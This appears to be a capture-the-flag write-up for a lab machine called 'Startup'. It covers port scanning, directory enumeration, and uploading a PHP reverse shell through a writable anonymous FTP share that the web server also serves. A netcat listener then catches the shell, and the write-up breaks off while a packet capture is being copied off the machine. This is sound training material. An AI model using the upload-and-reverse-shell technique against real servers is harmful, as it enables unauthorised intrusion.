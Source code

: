 # Startup

## Description

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

### Challenges

1. What is the secret spicy soup recipe?
2. What are the contents of user.txt?
3. What are the contents of root.txt?

## Approach

### Port Scans

Starting off I ran a nmap port scan over the target to find the open ports and applications running on them

Command: `nmap -sV -sC -oN nmap.txt -v 10.10.169.66`

```text
# Nmap 7.93 scan initiated Wed Jun 25 12:48:11 2025 as: nmap -sV -sC -oN nmap.txt -v 10.10.169.66
Nmap scan report for 10.10.169.66
Host is up (0.39s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.14.83.34
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 25 12:49:18 2025 -- 1 IP address (1 host up) scanned in 66.87 seconds
```

From this scan we learnt a few things:

- There is a ftp service on port 21 that allows `anonymous login` and has a writeable directory called `ftp`
- SSH is running on port 22
- There is a webserver on port 80

### Port 80 HTTP

![Website Homepage](assets/homepage.png)

When I navigated to the homepage I saw it had a maintanence banner up so I decided to run a directory scan on the site using `gobuster`

#### Directory Scan

Command: `gobuster dir -u $IP -w /usr/share/dirb/wordlists/common.txt -t 200 -o gobuster-root.txt`

```text
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/files                (Status: 301) [Size: 312] [--> http://10.10.169.66/files/]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 277]
```

The main thing that stands out is the `/files/` directory and when we navigate to it we see that it has the same structure as the `FTP` files we saw in the nmap scan.

![Same files as FTP](/assets/files.png)

### Port 21 FTP

We can login into ftp using the credentials `ftp:""` since there is anonymous login allowed. Listing the files shows the same structure and that we can add files to the ftp directory. Knowing this I can upload a test php file to check if the changes are reflected.

#### test.php

To test if the changes in the ftp directory reflect to the website I created `test.php` which has `<?php echo "<h1>Test File</h1>" ?>` inside it. If I upload this and access it we should see `Test File` on the page which means we can upload any php file and run it.

![FTP Test.php](assets/ftp-test_php.png)

Now we can go back to the `/files/ftp` directory on the webpage and see if the folder has updated.

![Upload Success](assets/ftp-update1.png)

And when we click the file we see the output we wanted

![PHP Runs as well](assets/php-works.png)

## Initial Access

Now we the information we gathered we can use a php file to get a reverse shell. In this case I'm going to use the classic [PentestMonkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell).

I renamed it to `shell.php` and updated my local address.

Now we can upload it to the ftp directory

```text
Connected to 10.10.169.66.
220 (vsFTPd 3.0.3)
Name (10.10.169.66:sam): ftp
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||37978|)
150 Ok to send data.
100% |********************************************************************************|  3460       15.49 MiB/s    00:00 ETA
226 Transfer complete.
3460 bytes sent in 00:00 (3.61 KiB/s)
ftp> bye
221 Goodbye.
```

Next I started a listener using `nc -lvnp 1234` and accessed the reverse shell at `/files/ftp/shell.php` which gives us a reverse connection.

![Shell Popped!](assets/reverse_shell.png)

## Interlude: Challenge 1

From here when I listed the directory I noticed I was in `/` and there were some unusual files and folders like:

- recipe.txt
- /incidents/
- /vagrant/

Reading `recipe.txt` gives us: `Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.`

So the answer is **love**

## Privilage Escalation: lennie

The `user.txt` file is most likely in a user home directory and looking in `/home` shows there is a user called `lennie` but only they have permission to access their directory.

![Lennies home perms](assets/perms.png)

Inside the `/incidents` directory we can see a packet capture called `suspicious.pcapng`

To get the file to my pc I decided to go simple and use the python http.server module as seen in the image below

![Exfil](assets/pcap-exfil.png)
